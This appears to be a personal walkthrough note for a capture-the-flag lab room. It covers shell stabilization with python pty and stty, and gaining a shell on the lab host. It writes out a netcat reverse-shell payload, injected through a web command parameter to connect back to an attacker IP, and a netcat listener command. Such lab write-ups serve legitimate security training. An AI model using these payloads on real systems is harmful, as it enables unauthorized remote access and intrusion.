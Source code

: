 Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're using ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `nc+-e+/bin/sh+10.50.74.165+4444`.
	This tells netcat to send /bin/sh command line to your IP and port. Putting this into the RCE, you get:
	`admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+10.50.74.165+4444`
- Add the payload to the cmd= parameter on the browser (Better on Burp Suite Repeater).

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150700382.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 4444

- On Repeater click "Send".
	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150823201.webp]]
	Your got a Revers Shell.

## Stabilize shell

In this case you'll have to use `python3`.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`


**Next step:** [[Task - 15 Docker? I hardly even know her!]]
